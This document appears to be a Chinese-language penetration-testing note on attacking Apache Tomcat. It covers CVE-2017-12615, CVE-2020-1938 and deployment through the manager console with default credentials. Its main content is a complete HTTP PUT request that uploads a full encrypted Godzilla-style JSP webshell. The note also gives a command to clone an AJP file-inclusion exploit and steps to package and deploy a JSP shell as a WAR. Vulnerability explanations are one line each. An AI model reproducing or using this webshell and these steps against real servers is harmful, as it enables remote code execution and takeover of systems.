







# Tomcat远程命令执行(CVE-2017-12615)

> CVE-2017-12615

### 环境准备



### 开始攻击

- 修改请求方法为`PUT`,写webshell

```cmd
PUT /hacker.jsp/ HTTP/1.1
Host: 192.168.2.254:8080
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/86.0.4240.193 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Cookie: _ga=GA1.1.233931871.1665473995
Connection: close
Content-Length: 2617

<%! String xc="3c6e0b8a9c15224a"; String pass="pass"; String md5=md5(pass+xc); class X extends ClassLoader{public X(ClassLoader z){super(z);}public Class Q(byte[] cb){return super.defineClass(cb, 0, cb.length);} }public byte[] x(byte[] s,boolean m){ try{javax.crypto.Cipher c=javax.crypto.Cipher.getInstance("AES");c.init(m?1:2,new javax.crypto.spec.SecretKeySpec(xc.getBytes(),"AES"));return c.doFinal(s); }catch (Exception e){return null; }} public static String md5(String s) {String ret = null;try {java.security.MessageDigest m;m = java.security.MessageDigest.getInstance("MD5");m.update(s.getBytes(), 0, s.length());ret = new java.math.BigInteger(1, m.digest()).toString(16).toUpperCase();} catch (Exception e) {}return ret; } public static String base64Encode(byte[] bs) throws Exception {Class base64;String value = null;try {base64=Class.forName("java.util.Base64");Object Encoder = base64.getMethod("getEncoder", null).invoke(base64, null);value = (String)Encoder.getClass().getMethod("encodeToString", new Class[] { byte[].class }).invoke(Encoder, new Object[] { bs });} catch (Exception e) {try { base64=Class.forName("sun.misc.BASE64Encoder"); Object Encoder = base64.newInstance(); value = (String)Encoder.getClass().getMethod("encode", new Class[] { byte[].class }).invoke(Encoder, new Object[] { bs });} catch (Exception e2) {}}return value; } public static byte[] base64Decode(String bs) throws Exception {Class base64;byte[] value = null;try {base64=Class.forName("java.util.Base64");Object decoder = base64.getMethod("getDecoder", null).invoke(base64, null);value = (byte[])decoder.getClass().getMethod("decode", new Class[] { String.class }).invoke(decoder, new Object[] { bs });} catch (Exception e) {try { base64=Class.forName("sun.misc.BASE64Decoder"); Object decoder = base64.newInstance(); value = (byte[])decoder.getClass().getMethod("decodeBuffer", new Class[] { String.class }).invoke(decoder, new Object[] { bs });} catch (Exception e2) {}}return value; }%><%try{byte[] data=base64Decode(request.getParameter(pass));data=x(data, false);if (session.getAttribute("payload")==null){session.setAttribute("payload",new X(this.getClass().getClassLoader()).Q(data));}else{request.setAttribute("parameters",data);java.io.ByteArrayOutputStream arrOut=new java.io.ByteArrayOutputStream();Object f=((Class)session.getAttribute("payload")).newInstance();f.equals(arrOut);f.equals(pageContext);response.getWriter().write(md5.substring(0,16));f.toString();response.getWriter().write(base64Encode(x(arrOut.toByteArray(), true)));response.getWriter().write(md5.substring(16));} }catch (Exception e){}
%>
```



- 连接`Godzilla`看看



### 漏洞原理

- `Apache Tomcat`如果开启PUT方法(默认关闭),则存在此漏洞,攻击者可以利用该漏洞构造请求上传webshell,导致`远程命令执行`

****

# Tomcat文件包含(CVE-2020-1938)

> CVE-2020-1938

### 环境准备

```cmd
git clone https://github.com/YDHCUI/CNVD-2020-10487-Tomcat-Ajp-lfi.git
```

### 开始攻击



- 成功读取到xml文件,说明存在文件包含漏洞

### 漏洞原理

- 使用了AJP协议(默认端口8009)存在缺陷,只要扫到8009端口就可以尝试是否存在漏洞

****

# Tomcat远程文件部署

- 默认账号密码:`tomcat/tomcat`登录后台



```cmd
//将1.jsp打包成war
jar -cvf 1.war 1.jsp
```



- 访问看看`http://192.168.2.254:8080/1/1.jsp`

- 连接`Godzilla`



****